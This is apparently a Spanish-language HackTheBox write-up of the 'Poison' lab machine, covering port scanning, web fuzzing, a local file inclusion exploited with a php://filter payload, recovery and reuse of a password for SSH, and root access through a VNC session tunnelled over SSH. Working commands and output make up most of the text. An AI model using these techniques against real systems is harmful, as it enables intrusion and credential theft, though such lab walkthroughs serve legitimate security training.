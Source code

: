 ```yaml
---
layout: post
title: Poison
date: 2023-03-31
description:
img:
fig-caption:
tags: [eWPT, eJPT]
---
```

___

<center><img src="/writeups/assets/img/Poison-htb/Poison.png" alt="" style="height: 394px; width:520px;"></center>

***

# Conocimientos



***

# Reconocimiento

## Escaneo de puertos con nmap

### Descubrimiento de puertos abiertos

```null
nmap -p- --open --min-rate 5000 10.10.10.84 -oG openports
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-31 16:23 GMT
Nmap scan report for 10.10.10.84
Host is up (0.045s latency).
Not shown: 60396 filtered tcp ports (no-response), 5137 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 26.09 seconds
```

### Escaneo de versión y servicios de cada puerto

```null
nmap -sCV -p22,80 10.10.10.84 -oN portscan
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-31 16:24 GMT
Nmap scan report for 10.10.10.84
Host is up (0.042s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e33b7d3c8f4b8cf9cd7fd23ace2dffbb (RSA)
|   256 4ce8c602bdfc83ffc98001547d228172 (ECDSA)
|_  256 0b8fd57185901385618beb34135f943b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.59 seconds
```

## Puerto 80 (HTTP)

Con ```whatweb```  analizo las tecnologías que emplea el servidor web

```null
whatweb http://10.10.10.84
http://10.10.10.84 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[FreeBSD][Apache/2.4.29 (FreeBSD) PHP/5.6.32], IP[10.10.10.84], PHP[5.6.32], X-Powered-By[PHP/5.6.32]
```

La página principal se ve así:

<img src="/writeups/assets/img/Poison-htb/1.png" alt="">

Aplico fuzzing para descubrir archivos PHP

```null
gobuster fuzz -u http://10.10.10.84/FUZZ.php -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -b 404
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.84/FUZZ.php
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Excluded Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/03/31 16:57:26 Starting gobuster in fuzzing mode
===============================================================
Found: [Status=200] [Length=321] http://10.10.10.84/browse.php

Found: [Status=200] [Length=289] http://10.10.10.84/index.php

Found: [Status=200] [Length=157] http://10.10.10.84/info.php

Found: [Status=200] [Length=68141] http://10.10.10.84/phpinfo.php

Found: [Status=200] [Length=20456] http://10.10.10.84/ini.php
```

Puedo ver una contraseña almacenada en un fichero de texto

```null
curl -s -X GET 'http://10.10.10.84/listfiles.php'
Array
(
    [0] => .
    [1] => ..
    [2] => browse.php
    [3] => index.php
    [4] => info.php
    [5] => ini.php
    [6] => listfiles.php
    [7] => phpinfo.php
    [8] => pwdbackup.txt
)
```

Aprovechando el LFI puedo ver la ruta absoluta

```null
curl -s -X GET 'http://10.10.10.84/browse.php?file=php://filter/convert.base64-encode/resource=listfiles.php' | base64 -d
<?php
$dir = '/usr/local/www/apache24/data';
$files = scandir($dir);

print_r($files);
?>
```

Y descargar el archivo

```null
curl -s -X GET 'http://10.10.10.84/browse.php?file=php://filter/convert.base64-encode/resource=/usr/local/www/apache24/data/pwdbackup.txt'
```

```null
cat data | tr -d "\n" | base64 -d | tr -d "\n" | base64 -d | tr -d "\n" | base64 -d | tr -d "\n" | base64 -d | tr -d "\n" | base64 -d | tr -d "\n" | base64 -d | tr -d "\n" | base64 -d | tr -d "\n" | base64 -d | tr -d "\n" | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d; echo
Charix!2#4%6&8(0
```

Me conecto por SSH

```null
ssh charix@10.10.10.84

charix@Poison:~ % cat user.txt 
eaacdfb2d141b72a589233063604209c
```

# Escalada

En el directorio personal hay un comprimido

```null
charix@Poison:~ % ls
secret.zip	user.txt
```

Está protegido por contraseña

```null
unzip secret.zip
Archive:  secret.zip
[secret.zip] secret password: 
```

Se reutiliza la de antes

Ejecuto un ```ps -faux``` para ver los procesos que se están ejecutando. Encuentro el siguiente:

```null
root   529  0.0  0.9 23620  8872 v0- I    19:46    0:00.04 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc
```

Para poder tener conectividad con el VNC, me conecto por SSH aplicando un Dinamic Port Forwarding

```null
sshpass -p 'Charix!2#4%6&8(0' ssh charix@10.10.10.84 -D 1080
```

```null
proxychains vncviewer -passwd secret localhost:5901
```

Gano acceso al sistema y puedo ver la segunda flag

<img src="/writeups/assets/img/Poison-htb/2.png" alt="">